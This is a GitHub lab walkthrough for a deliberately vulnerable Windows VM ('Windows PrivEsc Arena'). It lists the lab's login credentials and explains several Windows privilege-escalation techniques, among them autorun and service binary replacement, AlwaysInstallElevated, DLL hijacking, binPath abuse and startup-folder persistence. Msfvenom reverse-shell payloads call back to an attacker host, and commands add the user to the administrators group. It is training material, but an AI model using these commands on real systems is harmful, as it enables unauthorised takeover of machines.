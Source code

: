 # Windows PrivEsc Arena

<img width="1902" height="361" alt="image" src="https://github.com/user-attachments/assets/96706b9f-7faa-4ad5-8d3f-965cd8c67d44" />

---

>[!important]
> ### Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:
> #### **`username`** : user
> #### **`password`** : password321
>
> ### `For any administrative actions you might take, your credentials are:`
> #### **`username`** : TCM
> #### **`password`** : Hacker123
>

---

>[!warning]
> ### Connect To Target
> ```ruby
> xfreerdp3 /u:user /p:password321 /v:10.10.71.148 /cert:ignore /sec:rdp
> ```
> **`Or`**
>
>```ruby
> rdesktop 10.10.103.25 -u user -p password321
>```

---

<details>
  <summary>Registry Escalation</summary>





- <details>
      <summary>Autorun</summary>




  
  Windows Privilege Escalation: Insecure Autorun Permissions
  ==========================================================
  
  This guide demonstrates a privilege escalation technique by exploiting an executable in an autorun location that has insecure file permissions. The goal is to replace the legitimate program with a malicious payload, which will be executed with higher privileges when an administrator logs in.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify the vulnerable autorun program and confirm its weak permissions.
  
  1.  Scan for Autorun Programs
  
      Open a command prompt on the Windows VM and run Autoruns to inspect programs that launch on startup.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
  
      ```
  
  2.  Inspect Logon Items
  
      In the Autoruns window, click on the Logon tab to see all applications that run when a user logs in.
  
  3.  Identify the Target Program
  
      From the list, notice the "My Program" entry. Observe that it points to the following executable:
  
      ```
      C:\Program Files\Autorun Program\program.exe
  
      ```

      <img width="819" height="209" alt="image" src="https://github.com/user-attachments/assets/08b8581f-0b3a-4cc6-9c0a-8986e8ad13da" />


  4.  Check File Permissions
  
      Return to the command prompt and use accesschk64.exe to check the permissions on the program's directory.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
  
      ```

      <img width="647" height="263" alt="image" src="https://github.com/user-attachments/assets/d20be315-7309-4288-9cb4-ec06353ce661" />


  5.  Confirm the Vulnerability
  
      The output will show that the Everyone user group has ``FILE_ALL_ACCESS`` permission. This is the vulnerability, as it means any user can modify or replace the program.exe file.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a malicious payload, setting up a listener to receive the connection, and replacing the original executable.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  First, we will use the Metasploit Framework to create a reverse shell payload and a listener to catch the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```


  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```

      <img width="863" height="492" alt="image" src="https://github.com/user-attachments/assets/d70396ea-063a-465c-99a1-8d1fa4efc54e" />

  
  4.  Generate the Malicious Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious program.exe that will connect back to your listener.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o program.exe
  
      ```

     <img width="929" height="337" alt="image" src="https://github.com/user-attachments/assets/d4d93941-457d-46a8-8a3f-07f1eca288fe" />

  
  5.  Transfer the Payload
  
      Copy the newly generated program.exe file from your Kali VM to the Windows VM's desktop.

      <img width="1543" height="609" alt="image" src="https://github.com/user-attachments/assets/5daebdf6-0778-4aca-8596-96e866c26c38" />


  ### 2\. Planting the Payload (Windows VM)
  
  1.  On the Windows VM, replace the original program with your malicious payload. You can do this via the command line or file explorer:
  
      
  
      ```DOS
      move C:\Users\User\Desktop\program.exe "C:\Program Files\Autorun Program\program.exe"
  
      ```
  
      *(Confirm overwrite if prompted)*
  
  2.  To trigger the exploit, you must simulate the condition under which the program runs with elevated privileges. **Log off** from the current user session and then **log back on as an administrator**.
  
  ✅ Gaining Access & Verification
  -------------------------------
  
  When the administrator logs in, the malicious `program.exe` will execute and connect back to your listener on the Kali VM.
  
  1.  Catch the Session
  
      In your Metasploit terminal, you will see a new session being created.
  
      ```
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Interact with the Session
  
      Enter the new session using its ID.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
  
      ```
  
  3.  Verify Privileges
  
      To confirm that the attack was successful and you have escalated privileges, run the getuid command. The output should show that you are running as the administrator user.
  
      
  
      ```Ruby
      meterpreter > getuid
  
      ```
  





  </details>




- <details>
      <summary>AlwaysInstallElevated</summary>


  
  
  Windows Privilege Escalation: AlwaysInstallElevated
  ===================================================
  
  This guide demonstrates how to exploit the `AlwaysInstallElevated` policy in Windows to achieve privilege escalation. When this policy is enabled in both the `HKEY_LOCAL_MACHINE` (HKLM) and `HKEY_CURRENT_USER` (HKCU) registry hives, it allows any user to install MSI packages with `NT AUTHORITY\SYSTEM` privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  The first step is to query the Windows Registry to confirm that the `AlwaysInstallElevated` policy is enabled for both the system and the current user.
  
  1.  Check the Local Machine Policy (HKLM)
  
      Open a command prompt on the Windows VM and query the following registry key:
  
      
  
      ```DOS
      reg query HKLM\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is present and set to `0x1`.
  
  2.  Check the Current User Policy (HKCU)
  
      Next, query the key for the current user:
  
      
  
      ```DOS
      reg query HKCU\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is also set to `0x1`. If both keys are set to 1, the system is vulnerable.
  
  💥 Exploitation
  ---------------
  
  Now we will generate a malicious MSI package and use it to gain a privileged shell on the target machine.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our MSI payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```
  
  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```
  
  4.  Generate the Malicious MSI Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .msi file.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f msi -o setup.msi
  
      ```
  
  5.  Transfer the Payload
  
      Copy the newly generated setup.msi file from your Kali VM to the Windows VM, placing it in a writable directory like C:\Temp.
  
  ### 2\. Executing the Payload (Windows VM)
  
  1.  On the Windows VM, open a command prompt and execute the MSI package using `msiexec`. The `/quiet` and `/qn` flags will run the installation silently in the background.
  
      
  
      ```DOS
      msiexec /quiet /qn /i C:\Temp\setup.msi
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Return to your Metasploit terminal on the Kali VM. The MSI installer will execute with `SYSTEM` privileges and connect back to your listener.
  
  1.  Catch the Privileged Shell
  
      You will see a new Meterpreter session open.
  
      ```ruby
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Verify Privileges
  
      Interact with the new session and run the getuid command to confirm your identity.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
  
      ```
  
      You have successfully escalated to the highest privilege level on the system.
  
  



  </details>





  
</details>













<details>
  <summary>Service Escalation</summary>






- <details>
      <summary>Registry</summary>





  
  Windows Privilege Escalation: Insecure Service Registry Permissions
  ===================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service with weak permissions on its associated registry key. If a user has `FullControl` over a service's registry entry, they can modify its configuration---such as the executable it runs (`ImagePath`)---to execute arbitrary code with the service's privileges, which are often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we must identify that a low-privileged user has modification rights over a service's registry key.
  
  1.  Check Registry Key Permissions
  
      Open a PowerShell prompt on the Windows VM and use Get-Acl to inspect the permissions for the target service's registry key (regsvc).
  
      
  
      ```PowerShell
      Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
  
      ```

     <img width="994" height="270" alt="image" src="https://github.com/user-attachments/assets/5f376f33-75df-4868-a440-f9afb2c52cb2" />



  2.  Identify the Vulnerability
  
      In the output, examine the Access list. Notice that the NT AUTHORITY\INTERACTIVE group has FullControl permission. This is the vulnerability. The INTERACTIVE group includes any user who is logged on locally, meaning our low-privileged user can modify this key.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a custom executable, modifying the vulnerable service to run it, and then starting the service to trigger our payload.
  
  ### 1\. Preparing the Payload (Kali VM)
  
  We will compile a simple C program that adds our user to the local administrators group.
  
  1.  Transfer the Source Code
  
      First, copy the source file windows_service.c from the Windows VM (C:\Users\User\Desktop\Tools\Source\) to your Kali VM.

      <img width="1305" height="253" alt="image" src="https://github.com/user-attachments/assets/e000b2bd-8f58-4ec3-8a64-befdd41c2085" />

     
  2.  Modify the Payload Command
  
      Open windows_service.c on Kali with a text editor. Find the line containing the system() function and change its command to the following, which will add a user named user to the local administrators group.
  
      
  
      ```C
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```

      <img width="703" height="576" alt="image" src="https://github.com/user-attachments/assets/4d1f4a4e-f154-4199-8c1f-f6c9fd99019d" />


  
  3.  Cross-Compile the Executable
  
      Save the file and compile it for Windows using the mingw-w64 compiler. If you don't have it, install it first with `sudo apt update && sudo apt install gcc-mingw-w64`.
  
      
  
      ```Bash
      x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  
      ```

     <img width="587" height="200" alt="image" src="https://github.com/user-attachments/assets/eca01cdf-f18e-49e8-a426-b577106694fd" />

  
  4.  Transfer the Payload Back
  
      Copy the newly compiled payload, x.exe, from your Kali VM to a writable directory on the Windows VM, such as C:\Temp.

     <img width="513" height="113" alt="image" src="https://github.com/user-attachments/assets/a54a9283-0bd5-400e-a9ec-651a72a6c76c" />


  ### 2\. Modifying and Triggering the Service (Windows VM)
  
  Now, we will reconfigure the service to point to our new executable and then start it.
  
  1.  Change the Service's Binary Path
  
      On the Windows VM, open a command prompt and run the reg add command to modify the ImagePath for the regsvc service. This tells the service to run our payload instead of its original program.
  
      
  
      ```DOS
      reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
  
      ```

     <img width="648" height="127" alt="image" src="https://github.com/user-attachments/assets/8a2610a0-b3df-448f-bbea-8bf1eabcd0d6" />


  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute c:\temp\x.exe with the service's LocalSystem privileges.
  
      
  
      ```DOS
      sc start regsvc
  
      ```

     <img width="659" height="166" alt="image" src="https://github.com/user-attachments/assets/f523d731-d60c-4996-8164-7b6f566e29c9" />

   
      The command in our payload will now execute, adding the `user` to the administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member, confirming that you have successfully escalated privileges.
  
  
      **`before`**

     <img width="651" height="166" alt="image" src="https://github.com/user-attachments/assets/095264d1-ad26-478e-b106-7b2e2e013f15" />


     **`after`**

     <img width="652" height="213" alt="image" src="https://github.com/user-attachments/assets/328a56ef-cd33-412a-94d0-c49ce3b4e6fe" />



  </details>


- <details>
      <summary>Executable Files</summary>




  
  
  Windows Privilege Escalation: Insecure Service File Permissions
  ===============================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service whose executable has weak file permissions. If a low-privileged user can overwrite the service's executable, they can replace it with a malicious payload. When the service is next started, the payload will execute with the high privileges of the service account, typically `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service executable with insecure permissions that allows a standard user to modify or replace it.
  
  1.  Check File Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service executable (filepermservice.exe).
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
  
      ```
  
  2.  Identify the Vulnerability
  
      The output indicates that the Everyone user group has FILE_ALL_ACCESS permission on the filepermservice.exe file. This is a critical misconfiguration, as it means any user on the system can replace this executable.
  
  ⚙️ Prerequisite: Creating the Payload
  -------------------------------------
  
  Before we can exploit this, we need to create a malicious executable (`x.exe`) that will perform our privileged action. We will use `msfvenom` on a Kali VM for this.
  
  1.  Generate the Payload
  
      On your Kali machine, run the following command to generate an executable that adds a standard user named user to the local administrators group.
  
      
  
      ```Bash
      msfvenom -p windows/exec CMD="net localgroup administrators user /add" -f exe -o x.exe
  
      ```
  
  2.  Transfer the Payload
  
      Copy the newly generated x.exe from your Kali machine to a writable directory on the Windows VM, such as C:\Temp.
  
  💥 Exploitation
  ---------------
  
  With the payload ready, we can now overwrite the original service executable and start the service to trigger our exploit.
  
  1.  Overwrite the Service Executable
  
      On the Windows VM, open a command prompt and use the copy command to replace the legitimate service executable with our malicious payload. The /y flag suppresses the overwrite confirmation prompt.
  
      
  
      ```DOS
      copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
  
      ```
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute our malicious payload with LocalSystem privileges.
  
      
  
      ```DOS
      sc start filepermsvc
  
      ```
  
      The command embedded in our payload will now run, adding the `user` to the local administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming that you have successfully escalated privileges on the system.
  
  
  





  </details>


- <details>
      <summary> DLL Hijacking</summary>





  
  
  Windows Privilege Escalation: DLL Hijacking
  ===========================================
  
  This guide demonstrates a privilege escalation technique known as **DLL Hijacking**. This vulnerability occurs when a legitimate, high-privilege application attempts to load a Dynamic Link Library (DLL) from an insecure path. By placing a malicious DLL with the correct name in a user-writable directory that the application searches, an attacker can force the application to execute their code with elevated privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  We will use Process Monitor (`Procmon`) to observe a service's behavior and find a hijackable DLL path.
  
  1.  Launch Process Monitor
  
      On the Windows VM, navigate to C:\Users\User\Desktop\Tools\Process Monitor and run Procmon.exe as an administrator.
  
  2.  Set Up the First Filter (Process Name)
  
      We need to filter the events to only show activity from our target service.
  
      -   Go to `Filter > Filter...` (or press `Ctrl+L`).
  
      -   Create a rule that reads: **`Process Name` `is` `dllhijackservice.exe` `then` `Include`**.
  
      -   Click **Add**, then **Apply**.
  
  <img width="969" height="612" alt="image" src="https://github.com/user-attachments/assets/6a8e2778-9178-4a24-bdc9-4e84deb5a858" />
  
  
  
  3.  Set Up the Second Filter (Result)
  
      Next, we only want to see attempts to load files that were not successful.
  
      -   Create a second rule that reads: **`Result` `is` `NAME NOT FOUND` `then` `Include`**.
  
      -   Click **Add**, then **Apply**, and **OK**.
  
  
  <img width="842" height="466" alt="image" src="https://github.com/user-attachments/assets/05e1529a-34d6-42a2-a81c-5b7367207d7d" />
  
  
  4.  Trigger the Service
  
      Open a command prompt and start the vulnerable service to generate events in Procmon.
  
      DOS
  
      ```
      sc start dllsvc
  
      ```
  
  <img width="944" height="699" alt="image" src="https://github.com/user-attachments/assets/b15c6de7-6b51-4b83-af99-ff440e3aaf75" />
  
  
  
  5.  Analyze the Results
  
      Go back to the Process Monitor window. You will see several NAME NOT FOUND results. The key finding is an attempt to load a DLL from a user-writable directory.
  
      > The output will show that the service tried to load `hijackme.dll` from `C:\Temp`, but the operation failed because the file doesn't exist. Since `C:\Temp` is a writable location, this is our hijacking opportunity.
  
  💥 Exploitation
  ---------------
  
  Now we will create a malicious DLL, place it in the vulnerable path, and restart the service to execute our code.
  
  ### 1\. Preparing the Malicious DLL (Kali VM)
  
  1.  Transfer the Source Code
  
      Copy the source file C:\Users\User\Desktop\Tools\Source\windows_dll.c from the Windows VM to your Kali machine.
  
  <img width="1208" height="476" alt="image" src="https://github.com/user-attachments/assets/9596730f-855b-4d47-aefd-b90baea6c6b3" />
  
  
  
  2.  Modify the Payload
  
      Open windows_dll.c on Kali. Modify the system() function to execute a command that adds your user (user) to the local administrators group.
  
      C
  
      ```
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```
  
  <img width="767" height="368" alt="image" src="https://github.com/user-attachments/assets/7a3372cf-2628-4177-bff2-a83f724591dc" />
  
      
  
  3.  Compile the Malicious DLL
  
      Save the file and use the mingw-w64 cross-compiler to create the DLL. The -shared flag is essential for compiling a DLL file.
  
      Bash
  
      ```
      x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
  
      ```
  
  <img width="686" height="228" alt="image" src="https://github.com/user-attachments/assets/e584f743-26c1-427f-9cbe-6cc0b30eb722" />
  
      
  
  4.  Transfer the DLL Back
  
      Copy the compiled hijackme.dll from your Kali VM to the C:\Temp directory on the Windows VM.
  
  <img width="950" height="218" alt="image" src="https://github.com/user-attachments/assets/1547550e-54a2-4f32-8e8c-25010fd84fdd" />
  
  
  ### 2\. Planting and Triggering the DLL (Windows VM)
  
  1.  With `hijackme.dll` now in `C:\Temp`, the service will find and load it upon startup. Open a command prompt and restart the service to trigger the exploit.
  
      DOS
  
      ```
      sc stop dllsvc & sc start dllsvc
  
      ```
  
  <img width="653" height="456" alt="image" src="https://github.com/user-attachments/assets/535a519a-942b-4897-8ef2-428f8600f7d9" />
  
  
      When the service starts, it will load our malicious DLL and execute the embedded command with `SYSTEM` privileges.
  
  ✅ Verification
  --------------
  
  To confirm the attack was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the command prompt, run:
  
      DOS
  
      ```
      net localgroup administrators
  
      ```
  
      You should now see the `user` account listed as a member of the administrators group, confirming a successful privilege escalation.
  
  
  




  </details>


- <details>
      <summary>binPath</summary>






  
  
  Windows Privilege Escalation: Insecure Service Permissions (binPath)
  ====================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service where a low-privileged user has permissions to modify its configuration. If a user has the `SERVICE_CHANGE_CONFIG` permission, they can alter the service's binary path (`binPath`) to execute an arbitrary command with the privileges of the service account, which is often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service that our user has permission to reconfigure.
  
  1.  Check Service Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service (daclsvc).
  
      
  
      ```ruby
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
  
      ```
  
  2.  Identify the Vulnerability
  
      The output will show a list of permissions. The key finding is that your current user (e.g., User-PC\User) has the SERVICE_CHANGE_CONFIG permission. This allows us to modify critical service parameters, including the path to its executable.
  
  💥 Exploitation
  ---------------
  
  Now we will reconfigure the service to execute a command of our choice instead of its intended program and then start it to trigger the exploit.
  
  1.  Modify the Service's Binary Path (binPath)
  
      In the command prompt, use the sc config command to change the binpath of the daclsvc service. We will set it to a command that adds our current user (user) to the local administrators group.
  
      
  
      ```ruby
      sc config daclsvc binpath= "net localgroup administrators user /add"
  
      ```
  
      > **Note:** The space after `binpath=` is required. Windows will execute whatever is in the `binpath` string when the service starts.
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. The Service Control Manager will attempt to run the "binary" we specified, executing our command with LocalSystem privileges.
  
      
  
      ```ruby
      sc start daclsvc
  
      ```
  
      You may see an error message stating the service did not respond in a timely fashion. This is expected, as our command runs and exits immediately, which is not the behavior of a normal service. The command will have already succeeded.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```RUBY
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming a successful privilege escalation.
  
  




  </details>


- <details>
      <summary>Unquoted Service Paths</summary>
  </details>
  
  
  
  






  
</details>
















<details>
  <summary>Privilege Escalation - Startup Applications</summary>



Windows Persistence & PrivEsc: Writable Startup Folder
======================================================

This guide demonstrates a persistence and potential privilege escalation technique by exploiting a globally writable "All Users" Startup folder. If a low-privileged user can place an executable in this folder, that program will automatically run whenever *any* user---including an administrator---logs into the system. This can be used to gain a shell with the privileges of the user who logs in next.

🕵️‍♂️ Detection
----------------

First, we need to check the permissions of the `All Users` Startup folder to see if it's writable by our current user.

1.  Check Folder Permissions

    Open a command prompt on the Windows VM and use icacls.exe to inspect the permissions for the Startup folder.

    

    ```DOS
    icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

    ```

2.  Identify the Vulnerability

    In the output, look for the permissions granted to the BUILTIN\Users group. If it shows (F) for Full Access or (M) for Modify access, the folder is writable, and the system is vulnerable to this technique.

💥 Exploitation
---------------

The exploitation process involves creating a reverse shell payload, placing it in the vulnerable Startup folder, and waiting for a privileged user to log in.

### 1\. Setting Up the Listener & Payload (Kali VM)

Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.

1.  **Start Metasploit**

    

    ```Bash
    msfconsole

    ```

2.  Configure the Multi/Handler

    This module will listen for the incoming connection from our payload.

    

    ```Ruby
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>

    ```

3.  Start the Listener

    The listener will now wait for a connection.

    

    ```Ruby
    msf6 exploit(multi/handler) > run

    ```

4.  Generate the Malicious Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .exe file.

    

    ```Bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your Kali VM IP Address> -f exe -o x.exe

    ```

5.  Transfer the Payload

    Copy the newly generated x.exe file from your Kali VM to a temporary location on the Windows VM (e.g., the Desktop).

### 2\. Planting the Payload (Windows VM)

1.  On the Windows VM, move your payload into the vulnerable Startup folder.

    

    ```DOS
    move C:\Users\User\Desktop\x.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"

    ```

2.  To trigger the exploit, **log off** from the current user.

3.  Now, **log in with an administrator account**. When the administrator's desktop loads, the `x.exe` file in the Startup folder will be automatically executed.

✅ Gaining Access & Verification
-------------------------------

Return to your Metasploit terminal on the Kali VM. The payload will connect back to your listener.

1.  Catch the Session

    You will see a new Meterpreter session open. This session is running with the privileges of the administrator who just logged in.

    ```
    [*] Meterpreter session 1 opened (...)

    ```

2.  Verify Privileges

    Interact with the new session and run the getuid command to confirm the user context.

    

    ```Ruby
    meterpreter > getuid
    Server username: User-PC\Admin

    ```

    The output confirms the payload is running as the `Admin` user, successfully capturing a privileged session.



  
</details>








<details>
  <summary>Potato Escalation - Hot Potato</summary>
</details>








<details>
  <summary>Password Mining Escalation</summary>





- <details>
      <summary> Configuration Files</summary>
  </details>



- <details>
      <summary>Memory</summary>
  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>
</details>











